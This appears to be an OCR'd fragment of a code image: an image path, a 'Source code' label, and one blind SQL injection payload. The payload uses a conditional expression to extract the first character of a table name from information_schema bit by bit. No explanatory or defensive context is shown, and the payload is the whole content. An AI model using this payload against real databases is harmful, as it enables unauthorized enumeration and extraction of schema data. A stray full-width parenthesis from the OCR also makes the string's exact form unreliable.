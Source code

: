 if （(select (substr(lpad(bin(ord(substr(table_name, 1, 1))),8,0),1,1)) from information_schema.tables order by table_type limit 1) = 1, 15259, 1)
